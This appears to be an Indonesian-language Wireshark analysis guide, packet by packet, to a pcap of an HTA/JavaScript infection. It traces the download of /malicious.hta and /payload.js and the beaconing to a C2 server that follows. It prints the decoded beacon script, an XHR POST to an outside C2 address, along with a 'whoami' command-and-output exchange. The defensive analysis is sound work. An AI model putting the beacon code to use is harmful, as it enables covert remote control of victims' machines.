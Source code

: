 langkah-Langkah Cek di wireshark :

		1.	ip.src == 192.168.1.50 && ip.dst == 198.51.100.20 && http
		2.	TCP streams (right-click → Follow → TCP Stream) dan simpan body (Save as).
		3.	Extract Hta/Js : Menu File → Export Objects → HTTP → cari entry /malicious.hta dan /payload.js → Save.
					 ika JS berisi eval(atob('...')) → copy base64 string → decode:
		4.	Periksa C2 POST bodies: 
						ip.addr==192.168.1.50 && ip.addr==198.51.100.30 && http.request.method == "POST"
			Follow TCP Stream untuk melihat form body (beacon_id=..., output=...) dan server responses.
		5.	Analisa Out-Of-Order:
						Pilih packet 16 → Packet Details → TCP → lihat Seq/Ack.
						Gunakan Analyze → Expert Information untuk melihat apakah Wireshark menandai 
								  Retransmission/Out-of-Order/Duplicate ACK.						 


1	0.000000	192.168.1.50	198.51.100.20	TCP	54	51000 → 80 [SYN] Seq=0 Win=8192 Len=0
		Artinya	: Host 192.168.1.50 memulai koneksi TCP ke port 80 pada server 198.51.100.20. Flag = SYN (synchronise) berarti awal handshake.
		

2	1.000000	198.51.100.20	192.168.1.50	TCP	54	80 → 51000 [SYN, ACK] Seq=0 Ack=1 Win=8192 Len=0
		Artinya	: Server menjawab SYN+ACK — part kedua dari 3-way handshake. Ack=1 berarti mengakui SYN (seq+1).

3	2.000000	192.168.1.50	198.51.100.20	TCP	54	51000 → 80 [ACK] Seq=1 Ack=1 Win=8192 Len=0	
		Artinya	: Client menyelesaikan handshake dengan ACK. Sekarang koneksi terbuka,
			  Selanjutnya HTTP akan lewat koneksi ini (socket 192.168.1.50:51000 ↔ 198.51.100.20:80).

4	3.000000	192.168.1.50	198.51.100.20	HTTP	132	GET /malicious.hta HTTP/1.1 
		Artinya	: HTTP request GET. Panjang 132 bytes (ini ukuran frame pada capture).
			      Biasanya berisi header: GET /malicious.hta HTTP/1.1, Host: ..., User-Agent, Accept, dll.

		Action	: 1. Expand Hypertext Transfer Protocol di Packet Details → lihat Request Method, Request URI, Host, User-Agent.
			      2. Catat User-Agent (apakah browser atau mshta/wscript?). mshta user-agent bisa menandakan HTA dieksekusi dengan mshta.exe.
			      3. Catat Referer, cookies, any query params.

5	4.000000	198.51.100.20	192.168.1.50	HTTP	545	HTTP/1.1 200 OK  (application/hta)
		Artinya	: Server menjawab dengan HTTP/1.1 200 OK; Content-Type application/hta. Ukuran frame 545 bytes — pasti mengandung body (HTA content).
		
		Action	: 1. Di Packet Details: expand HTTP → lihat header Content-Type, Content-Length, Server, Cache-Control, Last-Modified.
			      2. Follow → TCP Stream pada koneksi ini untuk mengekstrak body HTA. Simpan body (File → Export Objects → HTTP) untuk analisis offline.
			      3. Di body HTA cari: <script> tags, eval(atob(, WScript.Shell, CreateObject("Wscript.Shell"), pemanggilan mshta inline, atau referensi ke payload.js.

6	5.000000	192.168.1.50	198.51.100.20	TCP	54	51001 → 80 [SYN] Seq=0 Win=8192 Len=0
		Artinya	: Victim membuka koneksi TCP baru (ephemeral port 51001) ke server:80. Ini tipikal saat browser/mshta membuat koneksi lain u/ memfetch resource (mis. /payload.js).
		
		Action	: apakah ada pipelining/keep-alive vs koneksi baru; jika server tidak mendukung keep-alive atau mshta requests made in separate sockets.

7	6.000000	198.51.100.20	192.168.1.50	TCP	54	80 → 51001 [SYN, ACK] Seq=0 Ack=1 Win=8192 Len=0
8	7.000000	192.168.1.50	198.51.100.20	TCP	54	51001 → 80 [ACK] Seq=1 Ack=1 Win=8192 Len=0
		Artinya	: Handshake Complete

9	8.000000	192.168.1.50	198.51.100.20	HTTP	127	GET /payload.js HTTP/1.1 
		Artinya	: Victim requests JavaScript resource payload.js. Ukuran 127 bytes (header only).

		Action	: sama seperti paket 4 — lihat Host, User-Agent (mshta?), Accept, referer (mengarah ke /malicious.hta), Connection: keep-alive etc.
10	9.000000	198.51.100.20	192.168.1.50	HTTP	428	HTTP/1.1 200 OK  (application/javascript)
		Artinya	: Server returns JS body (Content-Type application/javascript). Body akan mengandung
			  obfuscated JS (mis. eval(atob('<base64>'))) atau XHR routines. Ukuran cukup besar (428 bytes) ->
			  
		Action	: 1. Follow → TCP Stream (for the 51001↔80 stream) and extract payload.js.
			      2. Jika JS contains eval(atob('...')), salin base64 and decode.
			      3. Cari in decoded JS: XHR/fetch calls to C2 (/c2), beacon ids, user-agent spoofing, timing/interval functions.
			      4. hasil decode "function beacon(){var xhr=new XMLHttpRequest();xhr.open('POST','http://198.51.100.30/c2',false);
					   xhr.setRequestHeader('Content-Type','application/x-www-form-urlencoded');xhr.send('beacon_id=abc123');}
					   beacon();"	

11	10.000000	192.168.1.50	198.51.100.30	TCP	54	52000 → 80 [SYN] Seq=0 Win=8192 Len=0
		Artinya	: Victim sekarang membuka konkesi ke C2 server 198.51.100.30 melalui port 80 (new handshake). di triggered oleh payload.js (beacon).

		Action	: cek DNS resolution untuk 198.51.100.30 earlier? (Check DNS queries di pcap). jika C2 menggunakan domain, note mapping. 
			  cek juga TTL and MACs.

12	11.000000	198.51.100.30	192.168.1.50	TCP	54	80 → 52000 [SYN, ACK] Seq=0 Ack=1 Win=8192 Len=0
		Artinya	: server replies SYN+ACK.

13	12.000000	192.168.1.50	198.51.100.30	TCP	54	52000 → 80 [ACK] Seq=1 Ack=1 Win=8192 Len=0
		Artinya : Connection established to C2. Now application data (HTTP POST) will follow.

14	13.000000	192.168.1.50	198.51.100.30	HTTP	186	POST /c2 HTTP/1.1  (application/x-www-form-urlencoded)
		Artinya	: Victim posts data ke /c2. Payload type urlencoded — likely beacon_id=abc123 atau yang mirip. Size 186 bytes includes headers + body.

		Action	: 1. Follow → TCP Stream for this TCP connection and view the POST body. Di Wireshark, 
			         expand HTTP → check Line-based text data for POST body.
			      2. Catat Host header (controller.example?), User-Agent, Referer (bisa jadi original HTA host), Content-Length.
			      3. save the POST body (it may contain victim id, OS info, or other metadata). This is direct C2 communication.

15	14.000000	198.51.100.30	192.168.1.50	HTTP	124	HTTP/1.1 200 OK  (text/plain)
		Artinya	: C2 merespon dengan plaintext body — contoh seperti whoami. Size 124 bytes termasuk headers & body.
		
		Action	: Follow TCP stream u/ lihat detail. 
			      Jika detail terdapat whoami, ini adalah perintah agar dapat di eksekusi oleh JS (synchronous XHR).	
				whoami
				output=DOMAIN%5Cvictim_user
				HTTP/1.1 200 OK
				Content-Length: 2

16	15.000000	192.168.1.50	198.51.100.30	HTTP	197	[TCP Out-Of-Order] POST /c2 HTTP/1.1  (application/x-www-form-urlencoded)				
		Artiya	: 
			1. TCP Out-Of-Order di Wireshark berarti Wireshark menerima paket dengan sequence number yang
			     tidak cocok dengan yang diharapkannya sekarang — contoh: Wireshark sudah menerima paket
			     dengan seq N+X, lalu menerima paket dengan seq N (lebih kecil), atau paket tiba lebih lambat
			     sehingga urutan capture berbeda dari urutan transmisinya. Penyebab umum:
			     a. Paket retransmission dari host karena ACK hilang.
			     b. Jaringan mengalami reordering (multi-path routing).
			     c. Duplikasi atau capture artifact (capture point sees packets via two interfaces).	

			 2. Paket 16 adalah POST lagi (kemungkinan berisi output dari eksekusi perintah whoami,
			    atau POST kedua dengan hasil). Karena ada POST sebelumnya (paket 14), paket 16 bisa:
			    a. retransmit dari victim karena ACK sebelumnya belum diterima/sampai; atau
			    b. permintaan baru yang dikirim segera setelah menerima command; namun label Out-Of-Order menunjukkan seq/ack tidak runtun menurut Wireshark.

17	16.000000	198.51.100.30	192.168.1.50	HTTP	94	HTTP/1.1 200 OK 
		Artinya	: C2 mengakui POST terakhir; final 200 OK
			  Cek Body u/ konfirmasi OK.
